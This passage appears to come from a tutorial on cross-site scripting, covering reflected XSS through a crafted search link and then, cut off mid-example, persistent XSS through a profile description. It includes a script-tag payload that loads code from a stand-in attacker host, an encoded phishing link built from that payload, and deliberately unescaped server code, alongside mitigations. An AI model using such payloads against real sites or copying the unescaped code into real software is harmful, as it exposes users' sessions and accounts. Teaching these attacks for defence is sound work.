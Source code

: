 
And:

[<img src="https://i.stack.imgur.com/CfBYJ.png" alt="An alert box that says "1"." />](https://i.stack.imgur.com/CfBYJ.png)

Than Alice searches for `<script src = "https://alice.evil/puppy_xss.js></script>really cute puppies`, and copies the link in her address bar, and than emails Bob:

> 
Bob,
When I search for [cute puppies](https://example.com/search?q=%3Cscript+src+=+%22https://alice.evil/puppy_xss.js%3E%3C/script%3Ereally+cute+puppies), nothing happens!


Than Alice sucessfully gets Bob to run her script while Bob is logged on to his account.

### Mitigation:

1. Escape all angle brackets in searches before returning the search term when no results are found.
1. Don't return the search term when no results are found.
1. **Add a [Content Security Policy](https://stackoverflow.com/q/30280370/6560716) that refuses to load active content from other domains**



## Persistent Cross-site scripting (XSS)


Let's say that Bob owns a social website that allows users to personalize their profiles.

Alice goes to Bob's website, creates an account, and goes to her profile settings. She sets her profile description to `I'm actually too lazy to write something here.`

When her friends view her profile, this code gets run on the server:

```js
if(viewedPerson.profile.description){
    page += "<div>" + viewedPerson.profile.description + "</div>";
}else{
    page += "<div>This person doesn't have a profile description.</div>";
}

```

Resulting in this HTML:

```js
<div>I'm actually too lazy to write something here.</div>

```

Than Alice sets her profile description to `<b>I like HTML</b>`. When she visits her profile, instead of seeing

> 
<b>I like HTML</b>

